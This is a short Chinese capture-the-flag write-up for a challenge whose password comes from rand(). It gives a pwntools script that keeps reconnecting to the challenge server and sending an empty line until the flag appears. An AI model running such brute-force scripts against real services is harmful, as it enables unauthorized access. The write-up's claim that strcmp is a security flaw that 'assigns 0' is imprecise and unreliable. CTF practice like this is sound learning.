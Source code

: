 # 挑战简介
利用系统的rand函数来定义密码，你需要输对密码  

# 思路
我们发现，对比你输入对错的是strcmp  
c库的strcmp是有安全漏洞的，如果对比的数中有一个\x00数，则会直接停止对比，并给这个数赋值0  
所以我们可以直接爆破，只输入0，不正确重启继续，直至成功为止  

```
#!/usr/bin/python3
from pwn import *

# 设置日志级别
context.log_level = 'info'
context.arch = 'amd64'  # 64位二进制文件
context.log_level = 'debug'  # 启用调试输出

for i in range(114514):
	p = remote('nc1.ctfplus.cn', 47943)
	p.recvuntil(b'password:')
	p.sendline(b'')
	s = p.recvall()
	print(s)
	if b'document' in s:
		break
	p.close()
```

